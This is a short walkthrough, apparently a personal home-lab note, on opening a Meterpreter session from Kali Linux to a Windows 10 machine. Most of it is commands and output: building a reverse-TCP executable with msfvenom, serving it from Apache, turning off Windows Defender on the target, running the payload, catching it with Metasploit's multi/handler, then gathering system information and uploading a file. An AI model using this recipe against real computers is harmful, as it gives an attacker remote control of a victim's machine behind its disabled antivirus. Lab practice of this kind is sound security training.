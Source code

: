 ## shortcut on creating simple meterpreter session for fun##

##launch terminal##
# escalate to root #
~$ sudo su

# run the following to create msfvenom reverse shell payload *.exe and place it into your webserver directory #
┌──(root💀kali )-[/g]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > /var/www/html/fun.exe  


# the wares have been created run the following to start the appache webserver(or simple python server)#
┌──(root💀kali )-[/g]
└─# service apache2 start


##### Go to Windows machine ######

### Turn off Windows defender ##

 # Launch browser in windows. download and run executable msfvenom created #
open http://kaliipaddress/fun.exe 

# windows target is ready for expoiting and post exploitation ##

# Launch metasploit #

┌──(root💀kali)-[/g]
└─# msfconsole  


## run the following in metasploit, throw in an options or help command here and there ##

msf6 > use multi/handler

[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Sending stage (175174 bytes) to <windowsip>
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.3:2352 ) at 2022-02-28 00:55:06 -0500

# meterpreter session spawned # 

meterpreter > sysinfo <br>
 
Computer        : DESKTOP-WINDERS10 <br>
OS              : Windows 10 (10.0 Build 19044). <br>
Architecture    : x64 <br>
System Language : en_US <br>
Domain          : WORKGROUP <br>
Logged On Users : 2
Meterpreter     : x86/windows<br>

# open another terminal create a readme.txt to upload to windows computer in meterpreter #<br>
<br>
┌──(root💀kali)-[/g]
└─# nano readme.txt  <-- paste in the msfbanner that launched at the beginning, (I used a cow and ninja)
<br>
# Go back to meterpreter #
<br>
> meterpreter > upload readme.txt<br>
[*] uploading  : /g/readme.txt -> readme.txt<br>
[*] Uploaded 1.39 KiB of 1.39 KiB (100.0%): /g/readme.txt -> readme.txt<br>
[*] uploaded   : /g/readme.txt -> readme.txt<br>
meterpreter > ls<br>
> Listing: C:\Users\Gregster\Downloads<br>

## vefify that the file is there list and then look at it in windows machine, change directories in meterpreter, stop apache2 ... #<br>
<br>
┌──(root💀kali)-[/g]
└─# systemctl stop apache2  
<br>
┌──(root💀kali)-[/g]
└─# nmap -p80 localhost          
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 01:40 EST<br>
Nmap scan report for localhost (127.0.0.1)<br>
Host is up (0.000086s latency).<br>
Other addresses for localhost (not scanned): ::1<br>

PORT   STATE  SERVICE<br>
80/tcp closed http<br>

# meterpreter<br>
Metasploit/Meterpreter session from Kali to Windows VM<br>
